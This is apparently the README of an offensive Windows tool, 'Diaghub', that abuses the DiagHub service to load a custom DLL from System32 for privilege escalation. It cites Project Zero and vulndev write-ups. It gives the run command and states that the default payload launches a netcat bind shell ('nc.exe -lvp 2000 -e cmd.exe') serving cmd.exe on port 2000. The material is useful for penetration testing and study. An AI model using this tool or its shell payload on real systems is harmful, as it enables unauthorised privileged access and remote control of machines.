 # Diaghub

Loads a custom dll in system32 via diaghub.

* https://googleprojectzero.blogspot.com/2018/04/windows-exploitation-tricks-exploiting.html?m=1
* https://vulndev.io/2019/03/howto_diaghub.html

Example:

Get the dll via some other vulnerability into C:\Windows\System32 and run:
```
diaghub.exe c:\\ProgramData\\ xct.dll
```
The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`